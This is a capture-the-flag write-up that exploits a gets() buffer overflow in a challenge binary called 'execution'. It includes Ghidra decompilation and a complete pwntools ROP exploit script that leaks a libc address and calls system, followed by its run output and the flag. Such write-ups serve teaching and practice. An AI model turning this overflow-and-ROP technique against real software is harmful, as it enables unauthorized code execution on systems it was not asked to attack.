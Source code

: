 # Writeup

We are given a binary to pwn.

```
[*] '/home/pctf23/chall6/execution'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

Executing the binary we see that it executes normally and exits.

```
$ ./execution 
Welcome to the feedback submiter.
Tell us some review about our program: 
good
 ``` 
 ```
 ...
0x00000000004005b6  info
0x00000000004005c7  date
0x00000000004005d8  vuln
0x00000000004005fe  main
...
```

so we could see a vuln function which mostly would have the problem

Disassembling the main in ghidra

```

undefined8 main(void)

{
  puts("Welcome to the feedback submiter.");
  vuln();
  return 0;
}
```
Disassembling the info in ghidra
```
void info(void)

{
  puts("Why not try to execuate the date in the root");
  return;
}
```
So we need to execute the date command in the root folder.

Disassembling the vuln in ghidra
```
void vuln(void)

{
  char local_48 [64];
  
  puts("Tell us some review about our program: ");
  gets(local_48);
  return;
}
```

so here a gets function is used so trying to find the offset we get it to be 72

So as we are asked to execute the date fiel in the root folder 
Using a rop to build it 

Writing a script for ROP using pwn

```
#!/usr/bin/python3
from pwn import *

context.arch = "amd64"

offset = 72

elf = ELF("./execution")
p = elf.process()


rop = ROP(elf)
rop.call(elf.symbols['puts'], [elf.got['puts']])
rop.call(elf.symbols['vuln'])
rop.call("puts", [ next(elf.search(b"/date\x00"))])
rop.call(elf.symbols['system'], [ next(elf.search(b"/date\x00"))])

log.info(p.recvuntil("\n"))
log.info(p.recvuntil("\n"))

payload = [
    b"A" * offset,
    rop.chain()
]

payload = b"".join(payload)
p.sendline(payload)

puts = u64(p.recvuntil("\n").rstrip().ljust(8,b"\x00"))
log.info(f"puts found at {hex(puts)}")

p.interactive()
```

So now executing the python script
```

$ python3 solve.py
[*] '/home/pctf23/chall6/execution'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Starting local process '/home/pctf23/chall6/execution': pid 19904
[*] Loaded 14 cached gadgets for './execution'
/home/pctf23/chall6/solve.py:18: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  log.info(p.recvuntil("\n"))
[*] Welcome to the feedback submiter.
[*] Tell us some review about our program: 
/home/pctf23/chall6/solve.py:29: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  puts = u64(p.recvuntil("\n").rstrip().ljust(8,b"\x00"))
[*] puts found at 0x7efd23a39ed0
[*] Switching to interactive mode
Tell us some review about our program: 
$ ls
/date
p_ctf{c8@ng3_0rd3r_0f_3x3ccut10n}
[*] Got EOF while reading in interactive`

```

Got the flag ```p_ctf{c8@ng3_0rd3r_0f_3x3ccut10n}```